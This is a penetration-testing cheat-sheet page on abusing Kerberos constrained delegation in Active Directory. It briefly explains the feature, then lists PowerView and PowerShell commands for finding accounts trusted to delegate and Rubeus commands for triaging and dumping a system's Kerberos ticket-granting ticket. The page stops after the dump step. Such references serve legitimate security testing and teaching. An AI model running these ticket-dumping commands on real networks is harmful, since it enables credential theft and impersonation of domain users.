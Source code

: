 # Constrained Delegation

Link: https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/constrained-delegation

## Requirements

Compromise of the Active Directory Object that is configured for "Trusted to Auth".

## Explanation

Microsoft introduced Constrained Delegation in Windows Server 2003 to provide a more secure form of delegation compared to the high-risk Unconstrained Delegation. 

With Constrained Delegation, administrators can specify the services or applications for which a server is allowed to act on behalf of a user, thereby limiting the attack surface. This feature can reduce the risk of an attacker impersonating a user and accessing resources that they are not authorized to access.

## Enumeration

### 1) Powerview

##### Get computer Constrained Delegation

    Get-DomainComputer -TrustedToAuth| Select DnsHostName,UserAccountControl,msds-allowedtodelegateto | FL

##### Get user Constrained Delegation

    Get-DomainUser -TrustedToAuth

### 2) Powershell

##### Search both users and computers for Constrained Delegation

    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

## Obtain TGT

### 1) Rubeus

# Triage current tickets

    Rubeus.exe triage

##### Dump the systems TGT

    Rubeus.exe dump /luid:[LUID] /service:[krbtgt] /user:[Hostname] /nowrap
